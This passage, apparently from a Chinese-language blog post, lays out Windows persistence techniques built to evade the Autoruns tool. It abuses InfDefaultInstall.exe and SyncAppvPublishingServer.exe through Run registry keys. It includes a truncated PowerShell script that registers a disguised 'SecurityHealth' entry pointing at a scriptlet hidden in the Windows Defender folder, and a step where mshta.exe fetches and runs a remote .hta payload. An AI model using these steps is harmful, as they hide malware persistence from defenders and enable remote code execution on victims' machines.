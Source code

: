 **InfDefaultInstall.exe自動運行技術 (Does not work)**

**Windows 7**
1. Generate a COM scriptlet payload
2. Modify the “INF” file: https://github.com/huntresslabs/evading-autoruns/blob/master/shady.inf
3. Add registry key to load your INF file.
    *  HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WhateverYouWant(REG_EXPAND_SZ) – “InfDefaultInstall.exe shady.inf”
4. Place your INF payload in C:\Windows\system32.

**Windows 10 (Not recommended due to digital signature warning and UAC**)
1. Generate a COM scriptlet payload
2. Modify the “INF” file: https://github.com/huntresslabs/evading-autoruns/blob/master/shady.inf
3. Add registry key to load your INF file.
    *  HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WhateverYouWant(REG_EXPAND_SZ) – “InfDefaultInstall.exe shady.inf”
4. Place your INF payload in C:\Windows\system32.

**SyncAppvPublishing.exe自動運行技術**

**Windows 10**
1. Generate a “living off the land” payload
    *  i.e. mshta.exe https://blog.conscioushacker.io/testaroo.hta
2. Add registry key to execute your payload.
    *  HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WhateverYouWant(REG_EXPAND_SZ) – ‘SyncAppvPublishingServer.exe “.; Start-Process mshta.exe https://blog.conscioushacker.io/testaroo.hta”‘

# **AutoRuns Powershell Script**
這個[腳本](https://gist.github.com/ConsciousHacker/aa8d4eb96005b8ab954b1287787a9be4)應該可以寫得更動態，不過反正能運行嘛，將就用唄。

```
<#
    AutoRuns v1.0
    License: GPLv3
    Author: @ConsciousHacker
    Credits: @HuntressLabs
    References: https://github.com/huntresslabs/evading-autoruns
#>

function InstallAutoRuns-COM
{
	#Place your com scriptlet in C:\Program Files\Windows Defender\ as "MSASCuiL.com"
	$AutoRuns = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	$FakeProgramName = "SecurityHealth"
	$ComScriptlet = '"C:\Program Files\Windows Defender\MSASCui"'

	Set-ItemProperty -Path $Autoruns -Name $FakeProgramName -Value $ComScriptlet -Type ExpandString


}

function UninstallAutoRuns-COM
{
	$AutoRuns = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	$FakeProgramName = "SecurityHealth"
	$ComScriptlet = '"C:\Program Files\Windows Defender\MSASCui.exe"'

	Set-ItemProperty -Path $Autoruns -Name $FakeProgramName -Value $ComScriptlet -Type ExpandString
}

function InstallAutoRuns-INFDefaultInstall
{
	param
		(
```